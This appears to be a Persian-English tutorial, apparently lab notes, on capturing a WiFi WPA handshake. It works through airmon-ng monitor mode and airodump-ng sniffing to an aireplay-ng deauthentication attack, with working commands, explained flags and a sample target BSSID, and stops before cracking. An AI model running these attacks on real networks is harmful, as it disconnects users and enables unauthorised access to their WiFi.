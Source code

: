 > بنابراین اگر بتوانیم Four Way Handshake را Capture کنیم، میتوانیم با کرک آن به پسورد شبکه Wifi برسیم.
##### Instruction Steps
###### 0. Requirements
0. Pre-Pare Laboratory 
1. Pre-Pare a USB Wireless Card that Support Monitoring Mode
2. Download Aircrack for using in windows, Or Using Aircrack in Kali Linux by Default.
###### 1. Capturing Handshake - Phase 1 of Wifi Hacking
بصورت پیشفرض کارت شبکه وایرلس فقط ترافیک هایی که به سمت او می آیند را برمیدارد. هنگامیکه کارت شبکه را به حالت Monitor Mode میبریم کارت شبکه تمام ترافیک هایی که در محدوده و شعاع خود هستند را میتواند دریافت کند.
	1. ![[Pasted image 20240705180141.png]]
بنابراین در قدم اول باید کارت شبکه را به حالت Monitoring ببریم تا بتوانیم تمام ترافیک های اطراف را شنود کنیم.
1. *Put your Wifi Card in Monitor Mode with `airmon-ng`*
	1. `iwconfig` Check Existing Wifi Adapters
		1. ![[Pasted image 20240705180443.png]]
	2. `sudo airmon-ng start wlan0` Put Wifi Card on Monitor mode
		1. ![[Pasted image 20240705180635.png]]
	3. `iwconfig` Now *wlan0* Changed to *waln0mon* which Say Wlan0 on Monitor Mode
		1. ![[Pasted image 20240705180738.png]]
2. *Capture All wifi traffic with `airodump-ng`*
	1. حال که کارت شبکه در حالت Monitoring Mode است میتوانیم تمام ترافیک های وایرلس اطراف را شنود کنیم. اطلاعاتی که این ابزار به ما میدهد شامل BSSID, Chanel, Speed, Encryption, ESSID or SSID شبکه های وایرلسی میشود.
		1. ![[Pasted image 20240705181129.png]]
	2. `airodump-ng wlan0mon`
		1. ![[Pasted image 20240705181230.png]]
	3. حال در این مرحله اطلاعات SSID تارگت که میخواهیم کرک کنیم از جمله `Channel, BSSID` را بر میداریم تا در مرحله بعدی فقط اطلاعات این SSID را کپچر کنیم.
3. *Capture the related(target) traffic of your AP with `airodump-ng`*
	1. حال باید ترافیک های AP تارگت را کپچر کنیم تا Four Way Handshake را بدست بیاوریم.
		1. ![[Pasted image 20240705181838.png]]
	2. `airodump-ng -c 6 --bssid C0:f6:B1:00:31:A0 -w pass wlan0mon`
		1. `-c` مشخص کرن کانال وایفای تارگت
		2. `--bssid` مشخص کردن مک آدرس تارگت
		3. `-w pass` نام فایل
		4. Image
			1. ![[Pasted image 20240705182029.png]]
	3. ابزار airodump-ng به شنود ترافیک های AP وارد شده میپردازد، ترمینال شنود را minimize میکنیم و یک ترمینال جدید باز میکنیم تا حمله Deauthentication را انجام دهیم.
4. *Deauthentication the wireless clients with `aireplay-ng`*
	1. حال باید با استفاده از حمله Deauthentication کاری کنیم که کاربر از AP فعلی Disconnect شود و سپس مجبور شود به AP Fake که میسازیم و کاملا مشابه AP فعلی اوست متصل شود. در اتصال مجددا کاربر باید Pre-Shared Key را وارد کند که در اینجا میتوانیم Four Way Handshake Basics را Capture کنیم.
	2. `aireplay-ng -0 100 -a C0:f6:B1:00:31:A0 wlan0mon`
		1. `-0` Means Deauthentication
		2. `100` the number of Deauthentication Packets
		3. `-a` Specify AP Mac Address
		4. `wlan0mon` the Interface Name
		5. Image
			1. ![[Pasted image 20240705182627.png]]
	3. به محض اجرای حمله تعداد 100 بسته برای کلاینت فرستاده میشود و کلاینت از اکسس پوینت Disconnect میشود.
	4. ممکن است تعداد 100 بسته کم باشد بنابراین میتوانیم حمله را با تعداد بیشتری بسته انجام دهیم.
5. *Now Back to `Terminal-1` and we can see `Captured Handshake`*
	1. حال اگر به ترمینال اول که در حال شنود AP بود بر گردیم میتوانیم مشاهده کنیم که Four Way Handshake با موفقیت Capture شده است.
		1. ![[Pasted image 20240705183131.png]]
	2. هنگامیکه `WPA Handshake` را در گوشه بالا سمت راست ترمینال مشاهده میکنیم به معنای این است که Handshake با موفقیت Capture شده است، بنابراین پس از مشاهده عبارت `WPA Handshake` در گوشه بالا سمت راست، میتوانیم با `CTRL+C` از شنود خارج شویم تا به مرحله کرک Handshake برویم.